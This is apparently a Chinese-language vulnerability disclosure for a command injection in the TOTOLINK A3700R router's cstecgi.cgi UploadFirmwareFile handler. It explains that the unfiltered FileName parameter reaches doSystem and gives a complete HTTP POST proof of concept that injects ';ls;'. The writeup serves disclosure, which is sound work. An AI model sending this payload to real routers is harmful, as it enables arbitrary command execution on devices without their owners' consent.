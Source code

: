 

### **概述**：
影响设备：totolink A3700R

影响固件版本：V9.1.2u.6165_20211012

影响：命令注入，可以导致任意命令执行

固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>

报送邮箱 : zwx918569613@gmail.com


![](Pasted%20image%2020231022165035.png)

### **漏洞**：

该漏洞位于`cstecgi.cgi`中的函数`FUN_0042f718`，函数别名`UploadFirmwareFile`


![](Pasted%20image%2020231022165445.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
这里我们通过构造参数`FileName`，可以传入下面封装好的`doSystem`函数，并且`doSystem`没有过滤，通过构造合适的payload可以实现任意命令执行


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
~~~

### **影响效果**：

![](Pasted%20image%2020231022170210.png)